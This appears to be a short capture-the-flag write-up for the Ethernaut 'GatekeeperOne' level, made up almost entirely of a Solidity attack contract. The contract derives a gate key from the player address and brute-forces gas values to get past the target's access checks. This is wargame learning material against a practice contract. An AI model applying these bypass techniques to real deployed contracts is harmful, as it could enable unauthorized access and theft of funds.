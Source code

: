 +++
title = 'Ethernaut Level 13 - Gatekeeperone'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Break some gates'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Gatekeeperone {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Hack {
    event Log(string message);

    address player = 0x3fE440d3D0A0140FaFBC56915C429dfC14De06D5;
    // Create key to pass gate 3
    bytes8 key;
    Gatekeeperone target;
    constructor(address _target) {
        target = Gatekeeperone(_target);
        uint64 gateKey = uint16(uint160(player));
        gateKey += 0x100000000;
        key = bytes8(abi.encodePacked(gateKey));
        
    }

    function attempt() public {
        // Bruteforce until gas price is correct
        for (uint256 i = 0; i < 300; i++){
            // Use `call` interface to set gas price
            // IMPORTANT target.enter{gas: _gas} does not seem to work
            (bool success,) = address(target).call{gas: (8191 * 3) + i}(abi.encodeWithSignature("enter(bytes8)", key));
            if (success) {
                break;
            }
        }

        
    }
}
```solidity